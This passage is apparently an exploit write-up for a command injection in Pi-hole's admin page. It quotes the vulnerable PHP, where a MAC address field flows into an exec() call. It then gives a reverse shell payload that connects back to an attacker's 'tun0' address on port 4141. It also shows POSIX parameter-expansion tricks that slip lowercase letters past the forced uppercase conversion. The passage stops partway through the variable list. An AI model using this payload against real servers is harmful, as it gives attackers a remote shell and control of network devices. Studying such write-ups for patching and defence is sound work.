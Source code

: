 **[lines 542-550](demp/savesettings.php#L542):** then check only [html special characters](https://www.php.net/manual/en/function.htmlspecialchars.php) and converts the input to uppercase.
```
$mac = $_POST["AddMAC"];
if(!validMAC($mac))
{
	$error .= "MAC address (".htmlspecialchars($mac).") is invalid!<br>";
}
$mac = strtoupper($mac);
```

**[lines 588-592](dump/savesettings.php#L588):** then adds the entry to DHCP using a pihole system command.
```
if(!strlen($error))
{
	exec("sudo pihole -a addstaticdhcp ".$mac." ".$ip." ".$hostname);
	$success .= "A new static address has been added";
}
```

**Exploit exception :** MAC address input convert input data in upperCase letters and if we put shellcode in it. it converts all code in upperCase, As Linux commands are case sensitive, this would fail.

*the way to overcome this difficulty is to make use of **environment variables** and **POSIX Shell** Parameter Expansions.*

### Manual Exploit

#### payload Encoding 

**Reverse Shell Payload :** `aaaaaaaaaaaa&&php -r ‘$sock=fsockopen(“tun0”,4141);exec(“/bin/sh -i <&3 >&3 2>&3”);’`

there are three peices in the payload

* **First**, MAC address `aaaaaaaaaaaa` use as it is.

* **Second**, environment variables, In the encoded shell command we define the $P, $H and $R shell parameters that contain their matching lower-case character with the following POSIX Shell Parameter Expansions:

**Example**

	❯ W=${PATH#/???/}
	echo $W
	bash:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
	❯ P=${W%%?????:*}
	echo $P
	p

**All variables:**

	W=${PATH#/???/}
	P=${W%%?????:}
	X=${PATH#/???/??}
	H=${X%%???:}
	Z=${PATH#:/??}
	R=${Z%%/}
